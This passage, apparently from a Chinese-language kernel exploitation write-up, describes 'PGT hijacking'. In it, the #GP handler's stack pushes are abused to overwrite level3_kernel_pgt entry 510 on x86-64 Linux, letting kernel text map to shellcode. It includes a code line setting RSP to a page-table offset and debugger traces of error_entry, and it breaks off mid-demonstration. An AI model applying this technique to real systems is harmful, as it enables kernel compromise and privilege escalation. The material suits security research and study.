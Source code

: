 在初始化階段，kernel 會使用不同的變數來保存 page table 的資訊，不過我們要關注的只有下面兩個：

```c
// https://elixir.bootlin.com/linux/v6.3.4/source/arch/x86/include/asm/pgtable_64.h#L23
extern pud_t level3_kernel_pgt[512]; // pud
extern pmd_t level2_kernel_pgt[512]; // pmd
```

當切換到 kernel space 時 page table 的結構會向下方：

![image-20230803125342477](/Users/u1f383/Library/Application Support/typora-user-images/image-20230803125342477.png)

由此可知 `level3_kernel_pgt` 與 `level2_kernel_pgt` 決定了 kernel text 的 physical address，因此如果我們能夠控制這兩個變數的內容，就能間接控制同樣以落在 kernel text 的 #GP handler mapping 到哪塊程式碼。



### PGT Hijacking

發生 interrupt 時，硬體會自動 push ss, sp, rflags, cs, rip, 0 到 stack 當中，才去執行 interrupt handler。以 #GP handler 為例，執行過程中對 stack 的操作如下：

```
   <asm_exc_general_protection>       clac
   <asm_exc_general_protection+3>     cld
   <asm_exc_general_protection+4>     call   error_entry
```

```
   <error_entry>       push   rsi
   <error_entry+1>     mov    rsi, qword ptr [rsp + 8]
   <error_entry+6>     mov    qword ptr [rsp + 8], rdi
   <error_entry+11>    push   rdx
   ...
   <error_entry+32>    push   rsi
```

因為 general propurse register 的內容可以控制，這也就意味著我們有一個 arbitrary write 的 primitive 可以使用。

如果要控制 kernel text，最直接的方式是將 `level2_kernel_pgt` index=8 的 entry 改成可控的 physical address，這樣就能讓 kernel text mapping 我們的 shellcode。然而，因為硬體自動 push register 的機制與指令 `call error_entry` 所 push 的 return address，在我們能控制目標 page table entry 前，就會蓋寫到其他 entry (e.g. kernel data) 而導致 kernel panic，因此我們將目標換成是 `level3_kernel_pgt` index=510 的 entry，藉由竄改 PUD level 的 page table 來控制 RIP。

因為變數是一起宣告的，因此 `level2_kernel_pgt` 會緊接在 `level3_kernel_pgt` 記憶體位址的下方，所我們將 rsp 設為 `level2_kernel_pgt + 0x30`：

```c
#define LEVEL2_KERNEL_PGT_OFFSET 0x102f000UL
uc->uc_mcontext.gregs[REG_RSP] = kaddr + LEVEL2_KERNEL_PGT_OFFSET + 0x30;
```

在執行到 `error_entry()` 時 rsp 就會是 `level3_kernel_pgt` index=510 的 entry 的位址，並在指令 `push rsi` 執行完就能夠成功竄改到 entry：

執行前：

```
 ► 0xffffffff81a011c0 <error_entry>       push   rsi
   0xffffffff81a011c1 <error_entry+1>     mov    rsi, qword ptr [rsp + 8]
   0xffffffff81a011c6 <error_entry+6>     mov    qword ptr [rsp + 8], rdi
   0xffffffff81a011cb <error_entry+11>    push   rdx
   0xffffffff81a011cc <error_entry+12>    push   rcx
   0xffffffff81a011cd <error_entry+13>    push   rax
   0xffffffff81a011ce <error_entry+14>    push   r8
   ---------------------------------------------------------------------------
   00:0000│ rsp 0xffffffff8202eff8 (level3_kernel_pgt+4088)
```

